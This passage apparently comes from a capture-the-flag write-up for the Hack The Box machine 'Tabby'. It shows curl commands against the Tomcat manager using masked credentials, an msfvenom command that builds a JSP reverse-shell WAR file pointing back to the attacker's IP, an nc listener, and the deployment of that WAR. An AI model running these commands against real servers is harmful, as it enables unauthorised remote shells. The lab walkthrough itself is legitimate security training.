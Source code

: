 ```bash
# http://some_ip:some_port/manager/text/list

curl -s -X GET 'http://tomcat:.....@megahosting.htb:8080/manager/text/list'
curl -s -X GET 'http://megahosting.htb:8080/manager/text/list' -u 'tomcat:.....'
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I just have to search for **"tomcat upload war file from terminal"** with a search engine and again there is a **StackOverflow** resource, **[How to deploy war file to tomcat using command prompt?](https://stackoverflow.com/questions/25029707/how-to-deploy-war-file-to-tomcat-using-command-prompt){:target="_blank"}** which shows me a sample command to console upload the malicious `.war` file. I create the file with `msfvenom`, first I look for the payload I need and then I can create it to get a **Reverse Shell**. I check that the application has been uploaded and from the browser I access the application so that it interprets the same one and so it will access the victim machine.

```bash
# curl -v -u user:password -T app.war 'http://tomcathost/manager/text/deploy?path=/my-app-path&update=true'

msfvenom -l payloads
msfvenom -l payloads | grep java

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o reverse.war

nc -nlvp 443

curl -s -v -u 'tomcat:....' -T reverse.war 'http://megahosting.htb:8080/manager/text/deploy?path=/reverse&update=true'
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_41.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
